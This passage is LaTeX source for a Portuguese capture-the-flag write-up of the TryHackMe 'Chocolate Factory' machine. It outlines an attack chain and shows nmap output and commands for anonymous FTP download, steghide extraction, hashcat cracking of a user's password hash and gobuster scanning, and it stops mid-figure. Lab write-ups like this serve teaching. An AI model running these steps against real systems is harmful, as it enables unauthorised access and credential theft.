\documentclass[12pt]{article} % Corpo do texto em tamanho 12

% --- Configurações de Margem e Fonte ---
\usepackage[utf8]{inputenc}
\usepackage[T1]{fontenc}
\usepackage[a4paper, margin=2cm]{geometry} % Margem mínima de 2cm em todos os lados
\usepackage{times} % Fonte Times New Roman
\usepackage{xcolor}
\usepackage{listings}
\usepackage{graphicx}
\usepackage{fancyhdr}
\usepackage{hyperref}
\usepackage{titlesec} % Pacote para personalizar tamanhos de títulos
\usepackage{float}
\usepackage{subcaption}

% --- Configuração de Tamanho de Títulos ---
% Títulos de seção (14pt ou 16pt). Definido aqui como 16pt para destaque.
\titleformat{\section}{\normalfont\Large\bfseries}{\thesection}{1em}{}
\titleformat{\subsection}{\normalfont\large\bfseries}{\thesubsection}{1em}{}

% --- Configuração de Blocos de Código (Fonte Monoespaçada) ---
\definecolor{codebg}{gray}{0.95} % Fundo cinza claro
\lstset{
    basicstyle=\ttfamily\small, % Fonte monoespaçada
    backgroundcolor=\color{codebg},
    breaklines=true,
    frame=single,
    rulecolor=\color{black!30},
    showstringspaces=false,
    captionpos=b % Legenda abaixo do bloco
}

% --- Cabeçalho e Rodapé ---
\pagestyle{fancy}
\fancyhf{}
\fancyhead[L]{Chocolate Factory - Lurian Lima} % Nome do desafio e autor no cabeçalho
\fancyhead[R]{Write-Up}
\fancyfoot[C]{\thepage} % Numeração de páginas obrigatória

\begin{document}

% --- Capa ---
\begin{titlepage}
    \centering
    \vspace*{2cm}
    {\Huge \textbf{Write-Up de Segurança Ofensiva} \par}
    \vspace{1.5cm}
    {\Large \textbf{Desafio:} Chocolate Factory \par}
    {\large \textbf{Plataforma:} Try Hack Me \par}
    {\large \textbf{Autor:} Lurian Lima \par}
    \vspace{2cm}
    {\large \textbf{Data de Resolução:} \today \par}
    \vfill
\end{titlepage}

% --- Sumário ---
\tableofcontents
\newpage

% ---------------
% Resultados da enumeração. Use o comando abaixo para inserir screenshots:
% \begin{figure}[H]
%     \centering
%     \includegraphics[width=0.8\textwidth]{screenshot_nmap.png}
%     \caption{Legenda descritiva da imagem inserida imediatamente após o texto.}
% \end{figure}

% \begin{lstlisting}[caption={Comando de exploração utilizado}]
% # Exemplo de bloco de código com fundo destacado
% nmap -sV -sC -oN scan.txt 10.10.10.10
% \end{lstlisting}
% ---------------

% --- 2.3 Visão Geral ---
\section{Visão Geral}
% Parágrafo descrevendo o vetor principal de ataque sem spoiler detalhado. Deve responder: o que é o desafio,
% qual a superfície de ataque explorada e qual foi o caminho geral até o objetivo.

Chocolate Factory é uma máquina da plataforma TryHackMe com temática baseada em \textit{A Fantástica Fábrica de Chocolate}, que expõe múltiplos serviços de rede (FTP, SSH, HTTP e uma série de listeners customizados nas portas 100-125) e exige o encadeamento de diversas técnicas de enumeração para alcançar acesso root.

A superfície de ataque inicial é dividida em três frentes principais: um servidor FTP com login anônimo habilitado contendo uma imagem com dados escondidos via esteganografia; um binário customizado exposto na porta 113 que vaza uma chave Fernet através de engenharia reversa simples; e um servidor web na porta 80 com um painel de login vulnerável a bypass de autenticação, cujo painel pós-login permite execução remota de comandos.

O caminho geral de exploração consiste em: (1) extrair credenciais do charlie escondidas em uma imagem via esteganografia e quebrar o hash resultante; (2) usar essas credenciais (ou o bypass de login) para acessar o painel web e obter uma reverse shell como \textit{www-data}; (3) a partir dessa shell, localizar uma chave SSH privada legível por qualquer usuário no diretório home do charlie e pivotar para esse usuário; (4) explorar uma configuração indevida de \textit{sudo} para escalar privilégios até root, utilizando a chave extraída do binário da porta 113 para decriptar a flag final.

% --- 2.4 Reconhecimento ---
\section{Reconhecimento}
% Resultados da enumeração externa: portas abertas, serviços identificados, versões relevantes, tecnologias
% detectadas. Incluir comandos usados e os trechos de output mais relevantes. Não incluir informações obtidas
% após o foothold inicial.

O primeiro passo é executar o nmap

\begin{lstlisting}[caption={Comando de exploração utilizado}]
$ nmap -sC -sV -T4 <IP_ALVO>
...
PORT    STATE SERVICE    VERSION
21/tcp  open  ftp        vsftpd 3.0.5
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.129.184
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.5 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-rw-r--    1 1000     1000       208838 Sep 30  2020 gum_room.jpg
22/tcp  open  ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 d8:6e:c0:0b:c5:1e:7e:da:93:76:4b:eb:27:79:32:6e (RSA)
|   256 a7:06:b1:22:cd:0f:9c:de:2b:b0:a3:4f:e1:c7:0a:24 (ECDSA)
|_  256 8b:27:49:7a:48:1f:90:01:d7:11:09:a0:45:d5:7b:60 (ED25519)
80/tcp  open  http       Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
100/tcp open  newacct?
| fingerprint-strings: 
|   GenericLines, NULL: 
|     "Welcome to chocolate room!! 
|     ___.---------------.
|     .'__'__'__'__'__,` . ____ ___ \r
|     _:\x20 |:. \x20 ___ \r
|     \'__'__'__'__'_`.__| `. \x20 ___ \r
|     \'__'__'__\x20__'_;-----------------`
|     \|______________________;________________|
|     small hint from Mr.Wonka : Look somewhere else, its not here! ;) 
|_    hope you wont drown Augustus"
..
113/tcp open  ident?
| fingerprint-strings: 
|   GenericLines, GetRequest, HTTPOptions, Help, JavaRMI, Kerberos, LPDString, NULL, RPCCheck, RTSPRequest, TLSSessionReq, TerminalServer, TerminalServerCookie, giop: 
|_    http://localhost/key_rev_key <- You will find the key here!!!
...
8 services unrecognized despite returning data. If you know the service/version, please submit the following fingerprints at https://nmap.org/cgi-bin/submit.cgi?new-service :
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port100-TCP:V=7.95%I=7%D=10/11%Time=6ACBF016%P=x86_64-unknown-linux-gnu
SF:%r(NULL,20F,"\"Welcome\x20to\x20chocolate\x20room!!\x20\r\n\x20\x20\x20
SF:\x20___\x20\x20___\x20\x20___\x20\x20___\x20\x20___\.---------------\.\
SF:r\n\x20\x20\.'\\__\\'\\__\\'\\__\\'\\__\\'\\__,`\x20\x20\x20\.\x20\x20_
...
\end{lstlisting}

No output, as portas 100, 106, 109, 110, 111, 119 e 125 todas retornam a mesma mensagem que é mostrada na porta 100 no fragmento acima, indicando que elas provavelmente são custom listeners, ao invés de serviços. Porém, a porta 21 permite login via anonymous. Também é possível ver que essa porta possui um arquivo chamado \textit{gum\_room.jpg} que pode ser baixado após logar nesse serviço FTP.

A porta 80 possui um servidor apache rodando que pode ser explorado futuramente. Já a porta 113 permite que recuperemos uma chave acessando o link indicado.

% --- 2.5 Exploração ---
\section{Exploração}
% Descrição técnica do vetor de entrada. Deve incluir o raciocínio que levou à identificação da vulnerabilidade,
% os payloads ou scripts utilizados (comentados), exploits públicos utilizados e os outputs que confirmam o
% acesso. Cada passo deve ser justificado, não apenas listado.

\textbf{Porta 21}

Primeiramente, podemos logar de forma anônima no servido FTP da porta 21 e baixar o arquivo \textit{gum\_room.jpg}.

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.8\textwidth]{imgs/login_ftp_21.png}
    \caption{Logando e baixando o arquivo de imagem via login anônimo na porta 21.}
\end{figure}

Ao abrir o arquivo baixado, encontramos a seguinte imagem:

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.8\textwidth]{imgs/gum_room.jpg}
    \caption{Imagem baixada do servidor FTP}
\end{figure}

Podemos usar a técnica de esteganografia para tentar encontrar informações escondidas na imagem, como a seguir:

\begin{lstlisting}[caption={Comando para procurar informações escondidas na imagem baixada}]
$ steghide info gum_room.jpg 
"gum_room.jpg":
  format: jpeg
  capacity: 10.9 KB
Try to get information about embedded data ? (y/n) y
Enter passphrase: 
  embedded file "b64.txt":
    size: 2.5 KB
    encrypted: rijndael-128, cbc
    compressed: yes
\end{lstlisting}

Portanto, encontramos um arquivo escondido na imagem. Desse modo, podemos extrair este arquivo e ver o seu conteúdo:

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.8\textwidth]{imgs/steghide_extract.png}
    \caption{Conteúdo do arquivo extraído da imagem}
\end{figure}

É possível notar que este arquivo está codificado na base 64 pela presença de sinais de igual ao final e pelo conteúdo ser apenas caracteres ascii alfanuméricos. Logo, podemos decodificá-lo:

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.8\textwidth]{imgs/b64_decode.png}
    \caption{Decodificando o arquivo extraído}
\end{figure}

Ao final, encontramos uma hash associada ao charlie, que podemos quebrar com o hascat:

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.8\textwidth]{imgs/hashcat_charlie.png}
    \caption{identificando o tipo da hash}
\end{figure}

Por fim, basta executar o seguinte comando para quebrar a hash e encontrar a senha do charlie:

\begin{lstlisting}[caption={comando para quebrar a hash}]
$ hashcat -m 1800 -a 0 hash.txt rockyou.tx
\end{lstlisting}

\textbf{Porta 80}

Para explorar esta porta, começamos usando o gobuster:

\begin{lstlisting}[caption={comando do gobuster para escanear diretórios}]
$ gobuster dir -w /snap/seclists/1214/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -u http://<IP_ALVO> -x txt,html,php -o ~/gobuster.log
\end{lstlisting}

Com isso, descobrimos uma tela de login e uma outra tela em /home.php

\begin{figure}[H]
    \centering
    \begin{subfigure}[b]{0.48\textwidth}
        \centering
